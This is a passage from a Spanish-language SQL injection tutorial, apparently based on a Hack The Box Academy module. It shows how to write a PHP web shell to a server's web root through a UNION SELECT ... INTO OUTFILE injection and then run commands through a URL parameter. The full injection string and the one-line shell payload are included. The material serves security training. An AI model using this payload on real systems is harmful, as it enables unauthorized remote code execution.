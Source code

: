 <br>

NOTA: Vemos la caena que descartamos junto con '1', '3' y '4'. Esto se debe a que todo el resultado de la consulta UNION se escribiro en el archivo, para una salida pas limpia podemos usar "" en lugar de numeros.

<br>

## ESCRIBIENDO UNA WEBSHELL ##

<br>

Habiendo confirmado que tenemos permisos de escritura, podemos continuar y escribir un web shell de PHP en la carpeta webroot. Podemos escribir el siguiente webshell PHP para poder ejecutar comandos directamente en el servidor back-end.

<br>

    <?php system($_REQUEST[0]); ?>

<br>

Podemos reutilizar nuestro anterioe UNION y cambiar la cadena del anterior con el nombre de archivo de shell.php

<br>

    cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -

<br>

![](https://academy.hackthebox.com/storage/modules/33/write_shell.png)

<br>

Una vez mas, no vemos ningun error, lo que significa que la escritura de archivos posiblemente funciono. Esto se puede verificar navegando a la ruta /shell.php y ejecutar comandos a traves del parametro 0, con "?0=id" en nuestra URL.

<br>

![](https://academy.hackthebox.com/storage/modules/33/write_shell_exec_1.png)

<br>

La salida del comando id nos confirma que tenemos ejecucion de codigo y lo estamos usando como el usuario www-data.


